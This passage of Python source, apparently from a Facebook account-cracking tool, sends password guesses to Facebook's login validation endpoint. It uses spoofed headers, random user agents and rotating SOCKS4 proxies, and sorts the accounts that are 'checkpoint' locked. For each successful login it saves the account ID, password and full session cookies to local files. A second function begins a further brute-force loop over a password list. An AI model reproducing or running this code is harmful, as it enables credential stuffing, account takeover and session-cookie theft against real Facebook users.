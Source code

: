 			"referer": "https://m.facebook.com/login.php?skip_api_login=1&api_key=3213804762189845&kid_directed_site=0&app_id=3213804762189845&signed_next=1&next=https%3A%2F%2Fm.facebook.com%2Fv3.1%2Fdialog%2Foauth%3Fclient_id%3D3213804762189845%26redirect_uri%3Dhttps%253A%252F%252Fwww.capcut.com%252Fpassport%252Fweb%252Fweb_login_success%26scope%3Demail%26state%3D7fa6276f3gAToVCgoVPZIDBjODI1Yjc4YTUyZGI0Mzc5OWQyZmQ4Yjk2NjU3NjZloU7ZOmh0dHBzOi8vd3d3LmNhcGN1dC5jb20vbHYvdjEvdXNlci93ZWIvbG9naW4vdGhpcmRfY2FsbGJhY2uhVgGhSQChRAChQdIABVAcoU0AoUiud3d3LmNhcGN1dC5jb22hUgKiUEzRBuymQUNUSU9OqXVuZGVmaW5lZKFM2SJodHRwczovL3d3dy5jYXBjdXQuY29tL2lkLWlkL2xvZ2luoVTZIGQ1MjZmMWRlNmFkYzNlZTk3NzNmNWU2ZDAyMTZmNDRioVcAoUYAolNBAKFVwqJNTMI%25253D%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3Df074ef75-3c65-4cd9-8b24-1960b5a9e42d%26tp%3Dunspecified&cancel_url=https%3A%2F%2Fwww.capcut.com%2Fpassport%2Fweb%2Fweb_login_success%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D7fa6276f3gAToVCgoVPZIDBjODI1Yjc4YTUyZGI0Mzc5OWQyZmQ4Yjk2NjU3NjZloU7ZOmh0dHBzOi8vd3d3LmNhcGN1dC5jb20vbHYvdjEvdXNlci93ZWIvbG9naW4vdGhpcmRfY2FsbGJhY2uhVgGhSQChRAChQdIABVAcoU0AoUiud3d3LmNhcGN1dC5jb22hUgKiUEzRBuymQUNUSU9OqXVuZGVmaW5lZKFM2SJodHRwczovL3d3dy5jYXBjdXQuY29tL2lkLWlkL2xvZ2luoVTZIGQ1MjZmMWRlNmFkYzNlZTk3NzNmNWU2ZDAyMTZmNDRioVcAoUYAolNBAKFVwqJNTMI%25253D%23_%3D_&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr",
			"accept-encoding": "gzip, deflate, br",
			"accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7",}
			po = ses.post('https://m.facebook.com/login/device-based/validate-password/?shbl=0&locale2=id_ID',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False)
			if "checkpoint" in po.cookies.get_dict().keys():
				idf = ses.cookies.get_dict()["checkpoint"].split("%")[4].replace("3A", "")
				cp+=1
				print(f'\r{P}[{K}DRAGON-CP{P}] : {K}{idf}|{pw}|{ua}')
				open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
			elif "c_user" in ses.cookies.get_dict().keys():
				ok+=1
				coki=po.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				idf = re.findall('c_user=(.*);xs', kuki)[0]
				print(f'\r{P}{H}SLLOWLY-OK ⌲{P} = {H}{idf}|{pw}')
				print(f'\r{P}{M2}SLLOWLY-OK ⌲{P} = {H}{kuki}')
				print(f'{hijo}{ua}')				
				open('OK/'+okc,'a').write(idf+'|'+pw+'|'+kuki+'\n')
			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1

#------------------[ METHODE-MBASIC-2 ]-------------------#
def crackfree(idf,pwv):
	global loop,ok,cp
	bo = random.choice([m,k,h,b,u,x])
	sys.stdout.write(f"\r{x}[M2] | {P}{loop}{P} | {H}LIVE-{ok} {P}| {K}CHECK-{cp}")
	sys.stdout.flush()
	ua = random.choice(ugen)
	ses = requests.Session()
	for pw in pwv:
		try:
			nip=random.choice(prox)
			proxs= {'http': 'socks4://'+nip}